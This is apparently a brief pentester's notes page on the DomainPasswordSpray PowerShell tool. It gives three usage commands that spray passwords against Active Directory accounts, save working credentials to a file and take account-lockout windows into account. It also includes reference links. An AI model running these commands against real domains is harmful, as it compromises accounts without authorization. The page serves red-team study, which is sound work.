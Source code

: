 # DomainPasswordSpray

Search Tag(s): #password-spraying

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/01 - Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

https://pwn.no0.be/exploitation/password/account_lockout/

```
PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)